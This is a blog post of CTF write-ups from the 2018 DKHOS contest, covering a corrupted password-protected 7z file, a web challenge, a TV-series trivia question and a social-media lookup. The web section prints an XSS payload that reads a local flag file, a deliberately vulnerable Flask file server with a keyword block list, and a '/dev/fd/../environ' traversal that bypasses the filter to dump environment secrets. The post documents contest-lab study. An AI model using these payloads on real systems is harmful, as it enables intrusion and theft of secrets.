 ```yaml
---
layout: post
comments: true
title:  "DKHOS CTF - Writeups"
date:   2018-02-19 15:04:23
categories: [CTF]
tags: [CTF, DKHOS]
---
```


---

### Forensic 300 - Hadi Hoppala ve de Cuppala 
---

The link provided in the task was a corrupted file with no clue.

![image](/post4/post4-9.jpg)

After a brief inspection on header, I understood that this was a [7z] file but got corrupted.

Found the instructions for proper header and footer values on http://www.7-zip.org/recover.html and started to work on this on the last 20 minutes but couldn't make it in time as I was having problem with CRC checksum.

![image](/post4/post4-10.jpg)

Just FYI, I also spend some time after CTF officially ended. This 7z file was also password protected. To crack it I used brute-forcing with rockyou and found 'piggies' was the password.

Flag:
```
DKHOS_{4l_G1rd1n_g1rd1n}
```
---

### Web 200 – Kımızım Kandan Bahtım Karadan

---

When we access to the ip provided, a web page with 'Not Found' text was welcoming us. After inspecting the website code we found the github repo of the [blog theme].

From here, first thing to do was actually Diff'ing the repo with the code in the site. And we've found a file upload section.
In here we also found an XSS vulnerability on Filename attribute and things were going really smooth!

With the code

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///flag.txt");
x.send();
</script>
```

We were able to get the fl.. Unfortunately, it wasn't that easy:).

Just under the page, we have seen the 'DEV' environment and thought this could be a virtual host. We prepared the query and get the response:

```python
import os
from flask import Flask, request
app = Flask(__name__)
blist = (
'proc',
'www',
'var',
'etc',
'root',
'home',
'self',
'flag'
)
def get_flag():
    return os.environ.get('FLAG', '')
def super_firewall(path):
    for b in blist:
        if b in path:
            return False
    return True 
@app.route("/")
def hello():
    return "internal file storage, /file?name="
@app.route("/file")
def get_file():
    name = request.args.get('name', 'server.py')
    if not name:
        name = 'server.py'
    status = super_firewall(name)
    if not status:
        return "access denied"
    with open(name, 'r') as fp:
        content = fp.read()
        return content
if __name__ == '__main__':
    app.run(debug=False)
```

From here, it can be seen as FLAG was stored as an environment variable and we have to echo it somehow. In order to do it, we also need to bypass this mini filter blist.

After couple of trial and errors we prepared the query as:
```
/file?name=/dev/fd/../environ
```

and we got the flag:
```
LANG=en_US.UTF-8SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sockSUPERVISOR_ENABLED=1SUPERVISOR_PROCESS_NAME=internal
FLAG=DKHOS_{y0u_g0t_m3_pyth0n1st4}SUPERVISOR_GROUP_NAME=internalPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

---

### Trivia 400 – Kişi Faizi
---
Right after seeing this 'intentional English translation fails', I directly understood this was about TV Series 'Person of Interest' from the title.

![image](/post4/post4-1.jpg)

In the description, a document about Frank Stephens's death was mentioned and the flag was the date on it.  After a brief search on the net, I found the Season 1 Episode 3 could be helpful but watching the whole episode didnt make any sense. Thus I found the episode conversation script and searched for the name.

![image](/post4/post4-2.jpg)

After guessing the time according to these, the document with the flag was on that exact frame.

![image](/post4/post4-3.jpg)

---
### Cyber Intelligence 300 – Naber?
---

From the task description, it was clear that this was a social platform lookup.

![image](/post4/post4-4.jpg)

On the instagram, I've found the user with an interesting share. If looked closer, it can be understood that it was a github account!

![image](/post4/post4-5.jpg)

There was nothing suspicious on this repo as it was just a fork of another repo. Then in the commits I've found some nasty stuff.

![image](/post4/post4-6.jpg)

From here, I found the pastebin account:

![image](/post4/post4-7.jpg)

There was a strange text with a code in this pastebin. After trying telegram groups, we wanted to try whatsapp and found the flag as the name of the group!.



[blog theme]: https://github.com/BlackrockDigital/startbootstrap-clean-blog/tree/gh-pages
[7z]: http://www.7-zip.org
[The Foundation for Children with Leukemia]: http://www.losev.org.tr
[Invictus/Prodaft]: https://www.invictuseurope.com/
[Siberyildiz]: https://www.siberyildiz.com/
[Twitch]: https://www.twitch.tv/hackingwars

